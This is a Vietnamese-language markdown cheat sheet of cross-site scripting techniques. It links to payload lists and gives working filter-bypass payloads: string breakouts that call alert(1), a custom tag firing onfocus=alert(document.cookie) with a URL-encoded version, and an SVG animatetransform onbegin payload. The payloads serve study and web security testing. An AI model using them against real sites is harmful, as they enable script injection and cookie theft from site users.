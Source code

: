 # XSS

## CheatSheet Xss

- <a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet"> PortSwigger</a>

- <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html">OWASP</a>

- <a href="https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45">Payload 1</a>

- <a href="https://github.com/payloadbox/xss-payload-list">Payload 2</a>

## Các hàm có thể bị bypass

### 1. Replace

Ví dụ:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```
Hàm <b>replace</b> chỉ thay thế chuỗi đầu tiên được tìm thấy nên có thể bypass bằng cách sau:

![img](../images/web/xss/1.png)

## Nối chuỗi dẫn đến thay đổi giá trị của biến

```js
var searchTerms = '123';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```
Ứng dụng đã filter các ký tự:
```
Original     filter
   '     =>    \'
   "     =>    &quot;
   <     =>    &lt;
   >     =>    &gt;
``` 
Như vậy không thể chèn trực tiếp các tag vào biến <b>searchTerms</b>
```js
Khi input = ' 
    => var searchTerms = '\''
khi input = \' 123 
    => var searchTerms = '\\' 123'
    => chuôĩ được thoát khỏi biến
Lúc này ta gọi đến trực tiếp các hàm của js trong biến
input = \' - alert(1)     (+, - đều được, tuy nhiên dấu + bị nhầm lẫn là ký tự khoảng trắng trong burpSuite)
    => var searchTerms = '\\' + alert(1)
    => hàm alert(1) được gọi
```
Nếu ngay sau vị trí chèn vẫn còn chuỗi:
```js
var searchTerms = 'inject' + 'something message'

Có thể thay đổi 1 chút payload:
inject = '-alert(1)-'
    => var searchTerms = 'something' + 'inject' -alert(1)- 'something'
    => hàm alert(1) được gọi
```
```
Nếu dấu nháy đơn bị chuyển thành \' có thể encodeHtml(') = &apos;
```
## Bị block toàn bộ tag

Có thể tự custom tag, ví dụ:

```
<xss id=x tabindex=1 onfocus=alert(document.cookie) >#x
urlEncode: %3Cxss%20id%3Dx%20tabindex%3D1%20onfocus%3Dalert(document.cookie)%20%3E#x
```
- Tạo ra 1 tag có tên là <b>xss</b> với <b>id</b> là <b>x</b> 
- Thuộc tính <b>onfocus</b> sẽ gọi đến <b>alert</b> khi được focus 
- <b>tabindex</b> là thuọc tính bắt sự kiện khi người dùng nhấn tab để di chuyển qua các (fragment) phần tử của web. Có giá trị là <b>1</b> chỉ định nghĩa là nó sẽ được tập trung đầu tiên.
- <b>#x</b> tạo ra 1 <b>fragment</b> vd: https://www.example.com/page#section1 

=> Tóm lại khi <b>fragment</b> là <b>#x</b> nó sẽ trỏ đến tag <b>xss</b> có <b>id=x</b> với mức độ ưu tiên cao nhất <b>tabindex=1</b> và thực thi <b>onfocus=alert(document.cookie)</b>

## Bypass qua SVG và AnimateTransform tag 

<b>SVG</b> là tag tạo ra thành phần đồ họa cho web 

<b>AnimateTransform</b> cho phép soát việc di chuyển, xoay, chia tỷ lệ cho hoạt ảnh. 

<b>Payload</b>
```
<svg><animatetransform onbegin=alert()>
```
Hoặc viết đầy đủ:
```
<svg><animatetransform onbegin=alert()></animatetransform></svg>
```